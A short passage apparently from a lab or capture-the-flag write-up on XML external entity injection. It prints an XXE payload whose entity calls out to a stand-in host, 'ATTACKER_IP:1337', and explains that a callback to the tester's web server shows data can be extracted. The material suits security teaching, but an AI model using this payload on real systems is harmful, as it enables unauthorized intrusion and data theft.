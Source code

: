 ![img_1.png](img/img_1.png)

Modify the payload:  
```xml
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "http://ATTACKER_IP:1337/" >]>
<upload><file>&xxe;</file></upload>
```
Replace the value of the XML file in the request and resend it. 
Note that you have to replace the ATTACKER_IP variable with your own IP.
 
![img_2.png](img/img_2.png)

After sending the modified HTTP request, the Python web server will receive a connection from the target machine. 
The establishment of a connection with the server indicates that sensitive information can be extracted from the application.
